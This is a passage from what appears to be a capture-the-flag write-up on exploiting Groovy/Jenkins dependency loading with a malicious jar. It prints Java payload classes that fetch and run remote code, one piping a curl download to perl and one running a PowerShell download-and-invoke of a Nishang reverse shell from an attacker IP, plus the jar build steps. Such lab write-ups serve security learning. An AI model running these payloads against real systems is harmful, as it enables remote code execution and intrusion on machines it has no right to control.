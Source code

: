 
The web browser is showing a big error message that it can’t resolve the
dependency:

![1551286007637](https://0xdfimages.gitlab.io/img/1551286007637.png)

### Building a Jar Payload

The blog gives an example payload that looks like this:

    
    
    public class Orange {
        public Orange(){
            try {
                String payload = "curl orange.tw/bc.pl | perl -";
                String[] cmds = {"/bin/bash", "-c", payload};
                java.lang.Runtime.getRuntime().exec(cmds);
            } catch (Exception e) { }
        }
    }
    

I can clearly see that it will exec `/bin/bash -c curl orange.tw/bc.pl | perl -`. I can assume that `bc.pl` is a reverse shell.

This will have to be modified for a Windows target. I’ll have it run
PowerShell to get and Invoke a
[Nishang](https://github.com/samratashok/nishang) shell:

    
    
    public class Orange {
        public Orange(){
            try {
                String payload = "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.21/shell.ps1')";
                String[] cmds = {"cmd", "/c", payload};
                java.lang.Runtime.getRuntime().exec(cmds);
            } catch (Exception e) { }
        }
    }
    

Now I’ll build that into a jar. Compile the java:

    
    
    root@kali# javac Orange.java
    

Make the appropriate metadata:

    
    
    root@kali# mkdir -p META-INF/services/
    root@kali# echo Orange > META-INF/services/org.codehaus.groovy.plugins.Runners 
    root@kali# find
    .
    ./Orange.java
    ./Orange.class
    ./META-INF
    ./META-INF/services
    ./META-INF/services/org.codehaus.groovy.plugins.Runners 
    